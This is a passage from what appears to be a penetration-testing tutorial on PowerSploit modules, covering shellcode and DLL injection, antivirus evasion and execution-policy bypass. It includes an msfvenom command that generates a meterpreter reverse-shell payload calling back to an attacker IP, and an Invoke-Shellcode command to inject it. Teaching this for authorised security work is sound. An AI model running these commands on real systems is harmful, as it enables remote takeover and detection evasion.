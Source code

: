 ## PowerSploit Modules

PowerSploit is organized into six main categories of modules, each serving a distinct purpose in offensive security operations. In this section, we’ll cover each category and provide examples to help you understand how to use these modules effectively.

### Code Execution

The code execution modules in PowerSploit enable you to run arbitrary code on a target system. Some popular modules in this category are:

- **Invoke-Shellcode**: This module allows you to inject shellcode into the process of your choice or within the PowerShell process.
- **Invoke-DllInjection**: This module can inject a specified Dll into the process of your choice.
- **Invoke-ReflectivePEInjection**: This module can reflectively load a Windows PE file (such as an EXE or DLL) into the target process’s memory without touching the disk.

#### Example: Using Invoke-Shellcode to deploy a reverse shell

Suppose you want to execute a reverse shell on a target machine using the `Invoke-Shellcode` module. First, generate the shellcode using a tool like msfvenom:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=443 -f powershell
```

Once you have the generated shellcode, use the following command to execute it on the target machine:

```powershell
Invoke-Shellcode -Shellcode 'YOUR_GENERATED_SHELLCODE' -Force
```

This command will inject the shellcode into the PowerShell process and establish a reverse shell connection to your specified IP address and port.

### Script Modification

Script modification modules in PowerSploit allow you to modify PowerShell scripts in various ways, such as obfuscating the code, evading antivirus detection, or bypassing script execution policies. Some popular modules in this category are:

- **Out-EncodedCommand**: This module outputs an encoded command that you can use to bypass execution policies.
- **Out-CompressedDll**: This module compresses a Dll file and outputs a new Dll file that can be loaded using the Invoke-ReflectivePEInjection module.

#### Example: Bypassing Execution Policy with Out-EncodedCommand

To bypass the execution policy on a target machine, you can use the Out-EncodedCommand module to encode your PowerShell command. Here’s an example:

```powershell
$command = 'Get-Process'
$encodedCommand = Out-EncodedCommand -Command $command
```
